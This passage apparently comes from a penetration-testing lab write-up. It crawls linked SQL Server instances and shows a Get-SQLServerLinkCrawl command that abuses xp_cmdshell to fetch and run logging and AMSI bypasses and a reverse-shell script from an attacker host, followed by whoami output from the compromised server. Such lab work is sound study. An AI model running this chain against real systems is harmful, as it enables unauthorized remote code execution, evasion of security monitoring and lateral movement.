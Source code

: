 ```powershell


Version     : SQL Server 2017
Instance    : US-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {US-MSSQL}
User        : US\studentuser57
Links       : {192.168.23.25}

Version     : SQL Server 2017
Instance    : DB-SQLPROD
CustomQuery : {nt service\mssqlserver, }
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25}
User        : dbuser
Links       : {DB-SQLSRV}

Version     : SQL Server 2017
Instance    : DB-SQLSRV
CustomQuery : {db\srvdba, }
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25, DB-SQLSRV}
User        : sa
Links       :
```
- We can now obtain a reverse shell on `DB-SQLSRV`.
```powershell
PS C:\Auditor> Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.57/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.57/amsibypasscrtp.txt);iex (iwr -UseBasicParsing http://192.168.100.57/Invoke-PowerShellTcp.ps1)"''' -QueryTarget db-sqlsrv
```
- We will catch our reverse shell on our listener (after we exited the previous one).
```powershell
PS C:\Windows\Tasks> whoami /all

USER INFORMATION
----------------

User Name SID
========= ==============================================
db\srvdba S-1-5-21-2781415573-3701854478-2406986946-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                                             Attributes         
========================================== ================ =============================================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544                                                    Mandatory group, Enabled by default, Enabled group

<snip>
```
